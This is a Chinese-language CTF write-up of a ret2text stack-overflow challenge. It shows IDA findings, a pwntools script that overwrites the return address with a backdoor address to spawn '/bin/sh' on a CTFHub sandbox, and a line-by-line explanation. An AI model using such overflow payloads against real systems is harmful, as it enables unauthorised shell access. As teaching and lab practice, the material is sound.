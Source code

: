 # ida 反编译
如下
![](asset/PixPin_2025-05-24_01-30-00.png)
发现声明了一个v4 是112字节
同时发现secure函数如下
![](asset/PixPin_2025-05-24_01-32-58.png)
发现了`system("/bin/sh")`
这就是相对于一个shell窗口
可以知道返回`system`函数的地址是`0x4007B8`
![](asset/PixPin_2025-05-24_01-41-55.png)
因此覆盖112+8个字节
# 代码如下
```python
from pwn import *
p=remote('challenge-d158666bf8d3730c.sandbox.ctfhub.com',  29454)
shell_addr=0x4007B8
payloadp=b'A' *(0x70+0x8) + p64(shell_addr)
p.send(payloadp)
p.interactive()
```

# 结果
![](asset/PixPin_2025-05-24_01-43-20.png)

# ret2text

ret是return的意思， 2是to的意思。text指的是代码段。

ret的时候返回到`我们指定的text段的某个位置`(通常是后门函数的位置)

比如前面的`/bin/sh`

核心思想：

**通过覆盖函数的返回地址，让程序跳转到二进制文件自身代码段（.text 节）中已有的、有用的指令序列（如 `system("/bin/sh")`）**，从而劫持程序控制流

# 代码解释

- pwn

  **Pwntools** 是一个强大的 Python 库，专门用于 **CTF（Capture The Flag）比赛、漏洞利用（Exploit Development）和二进制逆向工程**

- remote

  建立远程连接

- 目标地址

  ```
  shell_addr = 0x4007B8
  ```

- b'A' \* (0x70 + 0x8)

  `0x70`（112 字节）：覆盖缓冲区（如 `char buf[112]`）。

  `0x8`（8 字节）：覆盖 **保存的 `RBP`**（栈基指针，64 位程序下占 8 字节）

- p64(shell_addr)：

  将 `0x4007B8` 打包为 **64 位小端序字节**，覆盖 **返回地址**

- #### 发送 payload

  ```
  p.send(payload)
  ```

- 交互模式

  ```python
  p.interactive()
  ```